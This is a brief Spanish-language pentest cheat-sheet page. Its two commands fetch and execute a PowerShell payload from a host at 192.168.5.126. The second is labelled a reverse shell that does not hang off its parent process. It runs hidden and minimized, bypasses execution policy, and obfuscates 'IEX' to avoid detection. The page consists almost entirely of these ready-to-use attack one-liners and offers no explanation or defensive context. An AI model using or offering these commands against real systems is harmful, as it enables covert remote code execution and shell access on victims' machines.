 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## Descargar y ejecutar desde powershell

```cmd
IEX(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')
```



## Reverse shell que no cuelgue de un proceso

```cmd
cmd /C START /MIN powershell -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c "I'E'X(New-Object Net.WebClient).DownloadString('http://192.168.5.126/payload.ps1')"
```









